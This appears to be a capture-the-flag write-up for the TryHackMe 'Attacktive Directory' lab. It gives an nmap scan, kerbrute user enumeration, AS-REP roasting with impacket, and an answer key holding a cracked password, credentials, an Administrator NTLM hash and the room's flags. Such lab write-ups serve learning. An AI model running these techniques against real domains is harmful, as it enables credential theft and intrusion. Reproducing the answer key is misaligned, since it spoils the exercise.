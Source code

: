 ```yaml
---
Machine Name : Active Directory
---
```


# ATTACKTIVE DIRECTORY

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/bc3749c26ec24501a38957e7869a9de1.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-27 19:32:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-27T19:33:55+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-16T22:48:24
| Not valid after:  2021-03-18T22:48:24
| MD5:   dabe 7d5f 87d1 5ec6 a30a e736 1e37 0efc
|_SHA-1: 3747 b05a 96c8 92bf f443 0d51 bc70 a268 88b6 500c
|_ssl-date: 2020-12-27T19:34:03+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/27%OT=53%CT=1%CU=30626%PV=Y%DS=2%DC=T%G=Y%TM=5FE8E1
OS:AC%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%TS=U)OPS(O1=M505NW8NNS%O2=M50
OS:5NW8NNS%O3=M505NW8%O4=M505NW8NNS%O5=M505NW8NNS%O6=M505NNS)WIN(W1=FFFF%W2
OS:=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M505NW8
OS:NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(
OS:R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-27T19:33:55
|_  start_date: N/A

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   44.91 ms 10.9.0.1
2   45.02 ms 10.10.109.179
```

## PORT 88 KERBEROS ENUMERATION

### BRUTEFORCE WITH KERBRUTE

```text
kerbrute -users users.txt -domain spookysec.local -dc-ip 10.10.109.179
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/619d613276d84b148ea0cfc255648964.png)

### ASREPROAST

```text
impacket-GetNPUsers spookysec.local/ -usersfile roasting.txt -dc-ip 10.10.109.179
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/172217409aaa48be9f6d9c5ed6637855.png)

### DECRIPTING

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/6e4a663649a44f73b71d009e1a5cca2e.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/90bef727c91e4a8aba6430684e1bb318.png)

## SHARES ENUMERATION

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/734a30d7dc724748ab0a707e0d33e8ac.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/a0fa1d57a27d456c9046eb74387afa85.png)

## HASHDUMP

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/8bc2bf7408374ac78db589d0d78947e3.png)

## GETTIN SHELL

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/e04dede3157246b685209be25863266d.png)

## ANSWERS

* What tool will allow us to enumerate port 139/445?

  ```text
  enum4linux
  ```

* What is the NetBIOS-Domain Name of the machine?

  ```text
  THM-AD
  ```

* What invalid TLD do people commonly use for their Active Directory Domain?

  ```text
  .local
  ```

* What command within Kerbrute will allow us to enumerate valid usernames?

  ```text
  userenum
  ```

* What notable account is discovered? \(These should jump out at you\)

  ```text
  svc-admin
  ```

* What is the other notable account is discovered? \(These should jump out at you\)

  ```text
  backup
  ```

* We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

  ```text
  svc-admin
  ```

* Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? \(Specify the full name\)

  ```text
  Kerberos 5 AS-REP etype 23
  ```

* What mode is the hash?

  ```text
  18200
  ```

* Now crack the hash with the modified password list provided, what is the user accounts password?

  ```text
  management2005
  ```

* Using utility can we map remote SMB shares?

  ```text
  smbclient
  ```

```text
- Which option will list shares?
-L
```

* How many remote shares is the server listing?

  ```text
  6
  ```

* There is one particular share that we have access to that contains a text file. Which share is it?

  ```text
  backup
  ```

* What is the content of the file?

  ```text
  YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
  ```

* Decoding the contents of the file, what is the full contents?

  ```text
  backup@spookysec.local:backup2517860
  ```

* What method allowed us to dump NTDS.DIT?

  ```text
  DRSUAPI
  ```

* What is the Administrators NTLM hash?

  ```text
  0e0363213e37b94221497260b0bcb4fc
  ```

* What method of attack could allow us to authenticate as the user without the password?

  ```text
  pass the hash
  ```

* Using a tool called Evil-WinRM what option will allow us to use a hash?

  ```text
  -H
  ```

* svc-admin

  ```text
  TryHackMe{K3rb3r0s_Pr3_4uth}
  ```

* backup

  ```text
  TryHackMe{B4ckM3UpSc0tty!}
  ```

* Administrator

  ```text
  TryHackMe{4ctiveD1rectoryM4st3r}
  ```
